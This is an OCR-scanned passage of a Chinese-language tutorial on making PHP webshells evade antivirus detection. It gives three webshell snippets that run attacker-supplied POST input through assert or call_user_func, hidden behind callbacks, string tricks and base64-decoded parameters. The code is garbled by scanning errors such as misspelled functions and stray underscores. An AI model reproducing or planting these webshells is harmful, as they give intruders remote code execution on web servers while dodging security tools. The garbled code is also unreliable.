 
### 回调函数配合⽅法或类


例如回调函数配合⽅法：


```php
<?php
function test($a){
array_intersect__ukey(array($a => 1), array(1), "assert");
}
test($POST["x"]);
?>_

```


### 使⽤特殊字符


特殊字符有：`\n`,`\r`,`\t`等。


```php
<?php
$a = $_POST['x'];_
$b = "\n"; function a($_ss){
$d=substrreplace("assexx","rt",4); 
return_ $d($ss);
}
a($b.=$a);
?>

```


经测试特殊字符的免杀性不强，勉强可以使⽤。


### 利⽤POST包获取关键字


```php
<?php
$decrpt = $_POST['x'];_
$decrps = $_POST['y'];_
$arrs = explode("|", $decrpt)[1];
$arrs = explode("|", base64_decode($arrs));
$arrt = explode("|", $decrps)[1];
$arrt = explode("|", base64_decode($arrt)); call_user_func($arrs[0],$arrt[0]);
?>

```

